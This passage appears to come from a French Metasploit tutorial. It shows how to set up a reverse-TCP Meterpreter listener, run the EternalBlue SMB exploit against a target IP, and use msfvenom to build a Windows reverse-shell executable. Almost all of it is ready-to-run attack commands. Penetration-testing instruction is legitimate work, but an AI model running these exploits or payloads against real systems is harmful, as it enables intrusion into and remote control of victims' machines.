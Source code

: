 #### Configurer Metasploit pour Recevoir le Payload

1.  **Lancer la console Metasploit** :

    ```bash
    msfconsole
    ```
2.  **Sélectionner un handler** :

    ```bash
    use exploit/multi/handler
    ```
3.  **Configurer le payload** :

    ```bash
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    set LPORT 4444
    ```
4.  **Lancer le listener** :

    ```bash
    exploit
    ```

* **Explication** :
  * Permet de recevoir une connexion depuis le payload exécuté sur la machine cible.

***

### 📋 Étape 6 : Exemples de Scénarios Pratiques

***

#### 1. Exploiter une Vulnérabilité SMB

*   **Commande** :

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS 192.168.1.10
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    exploit
    ```

#### 2. Générer un Payload Windows et Écouter

*   **Créer le payload** :

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o payload.exe
    ```
*   **Configurer le handler** :

    ```bash
    use exploit/multi/handler
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    set LPORT 4444
    exploit
    ```
